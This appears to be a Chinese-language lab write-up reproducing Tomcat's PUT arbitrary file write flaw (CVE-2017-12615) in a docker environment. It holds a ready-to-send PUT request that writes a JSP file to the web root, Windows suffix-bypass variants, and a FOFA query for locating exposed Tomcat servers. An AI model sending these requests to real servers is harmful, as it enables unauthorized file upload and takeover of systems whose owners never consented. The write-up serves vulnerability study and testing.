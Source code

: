 # Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

Tomcat版本：8.5.19  
running Apache Tomcat 7.0.0 to 7.0.79 on Windows  

## 环境搭建

```
docker compose build
docker compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：
bp要拦截后修改数据包，不要直接发包，响应为201则成功
```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```
```text
windows
PUT /1.jsp%20
PUT /1.jsp::$DATA
```
```text
fofa: "Apache Tomcat/8.5.19"
```

如下：

![](01.png)
